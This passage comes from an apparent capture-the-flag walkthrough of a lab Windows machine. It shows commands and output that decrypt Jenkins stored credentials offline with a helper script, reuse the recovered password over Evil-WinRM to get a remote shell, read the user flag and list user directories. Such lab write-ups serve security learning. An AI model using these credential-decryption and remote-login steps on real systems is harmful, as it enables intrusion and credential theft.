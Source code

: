 ```
jenkins_offline_decrypt.py                           100%[=====================================================================================================================>]   6.71K  --.-KB/s    in 0s      

2022-02-27 18:47:57 (14.0 MB/s) - ‘jenkins_offline_decrypt.py’ saved [6875/6875]

oxdf@hacky$ python jenkins_offline_decrypt.py 
Usage:
        jenkins_offline_decrypt.py <jenkins_base_path>
or:
        jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
        jenkins_offline_decrypt.py -i <path> (interactive mode)
oxdf@hacky$ python jenkins_offline_decrypt.py master.key hudson.util.Secret config.xml 
c1cdfun_d2434

```

Either way, the password is “c1cdfun\_d2434”.

### WinRM

Before logging into Jenkins, I’ll try this password over [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

oxdf@hacky$ evil-winrm -i 10.10.11.132 -u oliver -p c1cdfun_d2434

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\oliver\Documents>

```

It works!

I can grab `user.txt` as well:

```
*Evil-WinRM* PS C:\Users\oliver\desktop> type user.txt
30a27c61************************

```

## Shell as smith

### Host Enumeration

There’s not much else in oliver’s home directory. There are two other non-administrator users with home directories, maria and smith:

```
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/10/2021   3:20 AM                Administrator
d-----       10/26/2021   7:59 AM                maria
d-----       10/26/2021   7:58 AM                oliver
d-r---        4/10/2020  10:49 AM                Public
d-----       10/21/2021   3:44 AM                smith

```